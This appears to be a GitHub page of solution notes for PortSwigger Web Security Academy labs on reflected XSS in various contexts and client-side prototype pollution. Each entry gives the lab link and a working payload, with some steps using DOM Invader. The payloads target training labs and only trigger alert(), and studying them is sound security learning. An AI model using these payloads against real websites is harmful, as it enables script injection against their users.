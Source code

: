 ## XSS with Access key (Canonical Link tag)

**Chapter:**

https://portswigger.net/web-security/cross-site-scripting/contexts

**Lab:** 

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag

**Limitation:** Only on Chrome

**Solution:**

https://YOUR-LAB-ID.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)

Press Alt+x on keyboard to get alert

## XSS within <script>

**Chapter:** 
  
https://portswigger.net/web-security/cross-site-scripting/contexts
**Lab:** 
  
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped
**Limitations:** NA
**solution:** 
  
</script><script>alert(1)</script>


## Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

**Chapter:**

https://portswigger.net/web-security/cross-site-scripting/contexts
  
**Lab:**

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped
  
**Limitations:** NA

**Solution:** 

\'-alert(1)//


## Reflected XSS in a JavaScript URL with some characters blocked

**Chapter:** 

https://portswigger.net/web-security/cross-site-scripting/contexts
  
**Lab:**

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked
  
**Limitations:** NA

**Solution:** 

``` https://YOUR-LAB-ID.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27 ```



## Client-side prototype pollution via browser APIs 

**Chapter:**
https://portswigger.net/web-security/prototype-pollution/browser-apis/lab-prototype-pollution-client-side-prototype-pollution-via-browser-apis
  
**Lab:**
https://portswigger.net/web-security/prototype-pollution/browser-apis/lab-prototype-pollution-client-side-prototype-pollution-via-browser-apis
  
**Limitations:** NA


**Solution:** 
/?__proto__[value]=data:,alert(1);

 Identify a gadget 
 Observe that the next line uses the Object.defineProperty() method to make the transport_url unwritable and unconfigurable. However, notice that it doesn't define a value property. 
 Craft an exploit
 /?__proto__[value]=foo
In the browser DevTools panel, go to the Elements tab and study the HTML content of the page. Observe that a <script> element has been rendered on the page, with the src attribute foo. 
  
 ### usign DOM invader
  
 Enable DOM Invader and enable the prototype pollution option. 
 Scan for gadgets
 Exploit



# Template:
## Topic Here 

**Chapter:**
  
**Lab:**

  
**Limitations:** NA

**Solution:** 


  **solution:** 
